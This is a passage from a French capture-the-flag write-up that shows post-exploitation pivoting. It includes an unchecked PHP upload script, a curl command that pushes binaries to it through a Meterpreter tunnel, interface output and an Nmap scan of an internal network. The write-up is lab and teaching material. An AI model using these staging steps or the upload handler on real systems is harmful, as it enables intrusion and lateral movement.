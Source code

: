 ```php
<?php
if(!empty($_FILES['uploaded_file']))
{
    $path = "/tmp/" . basename($_FILES['uploaded_file']['name']);
    if (move_uploaded_file($_FILES['uploaded_file']['tmp_name'], $path)) {
      echo "uploaded";
    } else{
        echo "error";
    }
}
?>
```

Je peux alors m'envoyer les binaires manquant de cette façon via le tunnel créé plus tôt par *Meterpreter* :  

```bash
curl -F "uploaded_file=@/sbin/ifconfig"  http://127.0.0.1/.devloop_upload.php
```

Pour les gros binaires statiques il aura fallu les compresser au préalable avec xz sans quoi le script d'upload échoue.  

On découvre alors un nouveau réseau en 120.20 :  

```plain
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.20.0.2  netmask 255.255.0.0  broadcast 172.20.255.255
        ether 02:42:ac:14:00:02  txqueuelen 0  (Ethernet)
        RX packets 489  bytes 1082361 (1.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 454  bytes 34765 (33.9 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.19.0.2  netmask 255.255.0.0  broadcast 172.19.255.255
        ether 02:42:ac:13:00:02  txqueuelen 0  (Ethernet)
        RX packets 141  bytes 121109 (118.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 98  bytes 22233 (21.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1  (Local Loopback)
        RX packets 172  bytes 9142 (8.9 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 172  bytes 9142 (8.9 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

On envoie à nouveau un Nmap et on recommence. On n'est pas trop surpris de voir un serveur rsync :  

```plain
Nmap scan report for reddish_composition_backup_1.reddish_composition_internal-network-2 (172.20.0.2)
Host is up (0.00012s latency).
Not shown: 65526 closed ports
PORT      STATE    SERVICE
873/tcp   open     rsync
5872/tcp  filtered unknown
18127/tcp filtered unknown
18458/tcp filtered unknown
18992/tcp filtered unknown
21886/tcp filtered unknown
29660/tcp filtered unknown
31169/tcp filtered unknown
```